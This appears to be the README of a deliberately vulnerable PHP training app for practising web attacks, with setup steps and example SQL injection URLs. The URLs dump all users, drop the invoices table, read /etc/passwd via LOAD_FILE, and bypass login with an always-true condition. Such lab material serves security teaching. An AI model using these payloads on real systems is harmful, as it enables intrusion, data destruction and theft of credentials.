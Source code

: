 # Hack This
A collection of common web programming mistakes.

This website, when set up and configured, contains a number of vulnerabilities that can be exploited, including:

* SQL Injection
* XSS (Cross-Site Scripting)
* Session Hijacking

## Setup
To set everything up, you'll need to: 

* Import the file `db.sql` into your database
* Modify the file `consts.php` to correspond to your database
* Access the site and get hacking

## Examples
Examples of vulnerabilities in this web application include:

### SQL Injection
In an SQL injection attack, malicious SQL statements are inserted into an entry field for execution (usually in a data-driven web application). 

* Get information for all users: 
    - `http://localhost/index.php?username=leocadio'%20or%20'1'='1`
    - `http://localhost/index.php?username=leocadio'%20or%20''='`
    - `http://localhost/index.php?id=1%20or%201=1`
* Drop (destroy) invoices table: 
    - `http://localhost/index.php?id=1;drop%20table%20invoices`
* Dump the password hash file from the server: 
    - Unix: `http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1`
    - Windows: `http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('C:\\secrets.txt'),'1`
* Dump several things at once (oh boy): 
    - `http://localhost/index.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world`

### Bypass Login
It's possible to bypass login completely (logging in as whoever you like) by adding an always-true condition to the password check:

```
foo' or '1'='1
```

## Acknowledgements
This is heavily based on the [php-sploits](https://github.com/jadz/php-sploits) repository by [Jared Mooring](https://github.com/jadz) and [Allan Shone](https://github.com/CerealBoy). Find the slides for their [SydPHP](https://github.com/sydphp) talk [here](http://www.slideshare.net/CerealBoy/sydphp-security).
